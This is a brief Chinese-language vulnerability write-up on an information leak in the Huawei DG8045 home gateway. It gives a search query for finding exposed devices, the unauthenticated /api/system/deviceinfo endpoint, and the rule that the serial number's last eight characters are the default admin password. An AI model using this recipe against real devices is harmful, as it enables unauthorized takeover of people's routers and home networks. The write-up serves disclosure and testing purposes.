


# Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

```
Huawei DG8045
```

## 网络测绘

```
app="DG8045-Home-Gateway-DG8045"
```

## 漏洞复现

登录页面



验证POC

```
/api/system/deviceinfo
```



SerialNumber 后8位即为初始密码